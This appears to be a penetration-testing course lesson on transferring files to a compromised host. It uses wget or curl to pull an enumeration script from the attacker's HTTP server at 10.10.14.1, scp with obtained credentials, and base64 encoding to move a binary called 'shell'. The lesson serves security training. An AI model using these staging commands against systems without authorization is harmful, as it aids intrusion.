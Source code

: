 #new 

During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the `Upload` command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

## Using wget

There are many methods to accomplish this. One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

Transferring Files

```shell-session
Iskandeur@htb[/htb]$ cd /tmp
Iskandeur@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

Transferring Files

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:

Transferring Files

```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

Note that we used the `-o` flag to specify the output file name.

## Using SCP

Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

Transferring Files

```shell-session
Iskandeur@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Note that we specified the local file name after `scp`, and the remote directory will be saved to after the `:`.
## Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it. For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:

Transferring Files

```shell-session
Iskandeur@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:

Transferring Files

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```
## Validating File Transfers
To validate the format of a file, we can run the [file](https://linux.die.net/man/1/file) command on it:

Transferring Files

```shell-session
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

As we can see, when we run the `file` command on the `shell` file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run `md5sum` on it:

Transferring Files

```shell-session
Iskandeur@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Now, we can go to the remote server and run the same command on the file we transferred:

Transferring Files

```shell-session
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

As we can see, both files have the same md5 hash, meaning the file was transferred correctly. There are various other methods for transferring files. You can check out the [File Transfers](https://academy.hackthebox.com/module/details/24) module for a more detailed study on transferring files.